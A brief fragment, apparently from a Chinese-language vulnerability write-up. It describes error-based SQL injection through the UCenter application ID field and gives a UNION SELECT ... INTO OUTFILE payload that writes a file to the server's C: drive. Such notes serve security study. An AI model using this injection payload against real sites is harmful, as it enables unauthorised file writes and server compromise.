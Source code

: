 ![image](../img/e74fd6ad0d2971b7502794eca23d62e0.png)

构造报错注入

### 补充：

UCenter 应用 ID填入exp，然后提交

```
1' union select 'abc'  into outfile 'c:\6.txt' -- a 
```